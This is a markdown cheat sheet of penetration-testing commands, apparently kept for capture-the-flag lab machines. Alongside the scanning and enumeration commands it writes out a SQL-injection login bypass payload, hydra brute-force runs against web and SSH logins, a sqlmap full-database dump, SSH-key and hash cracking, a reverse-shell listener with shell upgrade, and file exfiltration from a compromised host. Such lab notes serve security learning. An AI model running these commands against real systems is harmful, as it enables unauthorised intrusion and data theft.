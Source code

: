 # _**Some Important Notes**_

-------------------------------------------------------------------------------------------

`verison` 
`1.1.2`

-------------------------------------------------------------------------------------------


`General Nmap Scan`


	nmap -sV -A {machine IP} 


`If ping is being blocked`

	nmap -sV -A {machine IP} -Pn


------------------------------------------------------------------------------------------

`Gobuster`

	gobuster dir -u http://machineip -w wordlists


--------------------------------------------------------------------------------------------

`rust scan`


	rustscan -a {machine IP} -- -A -sC -sV

-------------------------------------------------------------------------------------------------


`enum4linux`

	./enum4linux.pl -U {machine IP} 

`or also -S be used`

	./enum4linux.pl -S {machine IP}

-----------------------------------------------------------------------------------------------

`subclient`

	smbclient //{machine IP}

--------------------------------------------------------------------------------------------

`SUID permission`

	find / -perm -u=s -type f 2>/dev/null

`Search root flag`

	find / -name root.txt
	
	
----------------------------------------------------------------------------------------------

`Download From Reverse Shell`

`In Reverese shell`

	python3 -m http.server {port}

`In local Machine`

	wget machineip:8000/file.name


`for directory` `sometimes`

	wget --recursive --no-parent  10.10.46.113:8000/{directory}

------------------------------------------------------------------------------------------------------

`linpeas.sh`

	linpeas.sh is the best script for previlage escilation


-------------------------------------------------------------------------------------------------------

`FTP download/upload`

	get -> download file
	put -> upload file

-------------------------------------------------------------------------------------------------------

`sql injection` 
`login bypass`

	 username: ' or 1=1 --
	 password: anything

---------------------------------------------------------------------------------------------------

`netcat`

	nc -nvlp {port}

-------------------------------------------------------------------------------------------------

`PTY shell upgrade`
`Stable Reverse Shell connnection`

        python3 -c 'import pty; pty.spawn("/bin/bash")'

-------------------------------------------------------------------------------------------------
`john the ripper`
`john`

	john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

-----------------------------------------------------------------------------------------------------

`rsa` 
`ssh2john`

	/usr/share/john/ssh2john.py id_rsa > id_rsa.john 

`then`

       john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

`john for hash`
	
	john --format=raw-sha1 hash

`ssh2johnhash`

	chmod 600 id_rsa #change mode to initial RSA private key file

`for ssh connection`

	ssh -i id_rsa user@ip 


------------------------------------------------------------------------------------------------------

`hydra`


        hydra -l user -P wordlists.txt {ip} -V http-form-post "page:parameters:string"



`example:`


        hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.208.134 -V http-form-post "wp-login.php:log=^USER^&^PASS^$wp-submit:LogIn&testcookie=1:F=incorrect"


`use burpsuit for rest of info`

--------------------------------------------------------------------------------------------------------

`hydra ssh`

	hydra -l jake -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.215.72 ssh -t 4 
	

-----------------------------------------------------------------------------------------------------


`hashid`

	hashid -m '{hash value}'

`hashcat`

	hashcat -m {mode value from hashid} {hash value} {/wordlists.txt}

-------------------------------------------------------------------------------------------------------------

`sqlmap`

	sqlmap -u http://10.10.71.73 --forms --tamper=space2comment --dump-all -dbms sqlite

----------------------------------------------------------------------------------------------------------------
`steghide`

	steghide extract -sf brooklyn99.jpg
	
`stegcracker`
	
	stegcracker brooklyn99.jpg  /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt

`binwalk`

	binwalk -e file.jpg


-------------------------------------------------------------------------------------------------------------------

`Network File System (NFS) `

`Know mount location` 

	 sudo showmount -e 'machine-ip'

`to mount the file`

	sudo mount -t nfs 'machine-ip':/opt/conf /tmp/mountme

`note` `/opt/conf/ is mount location` `and` `/tmp/mountme` `is where you want to save file`


-------------------------------------------------------------------------------------------------------------------------------------

`Redis`

	redis-cli ip_here  -a password_here

`command for redis interface`
	
	keys * for ls
	get 'filename' for cat

`for more`

	https://redis.io/commands


# @cc github.com/prakashchand72



